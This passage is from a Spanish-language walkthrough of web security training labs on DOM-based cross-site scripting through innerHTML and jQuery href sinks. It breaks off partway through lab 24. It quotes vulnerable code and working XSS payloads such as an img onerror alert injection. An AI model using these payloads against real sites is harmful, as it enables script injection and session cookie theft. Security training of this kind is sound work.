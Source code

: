 ```
</option></select><img src=x onerror=alert(1)>
```

![](img52.png)

## 23. Lab: DOM XSS in innerHTML sink using source location.search

```
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

Buscamos cualquier texto por ejemplo **aaa** en el laboratorio y luego revisamos si encontramos alguna coincidencia en el codigo fuente. Vemos que solo tenemos una coincidencia pero luego encontramos un codigo **HTML** interesante.

![](img53.png)

Entonces generamos el siguiente payload para ejecutar el alert.

```
<img%20src=x%20onerror=alert(1)>
```

![](img54.png)

## 24. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

```
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.
```

Ingresamos a cualquier producto o al enlace **Submit feedback** y analizando el codigo fuente encontramos lo siguiente

```
<script>
    $(function() {
    	$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

Entonces, agregaremos el parametro returnPath con un valor por ejemplo **aaa** y verificamos mediante las heramientas de desarrollador donde encontramos dicho texto.

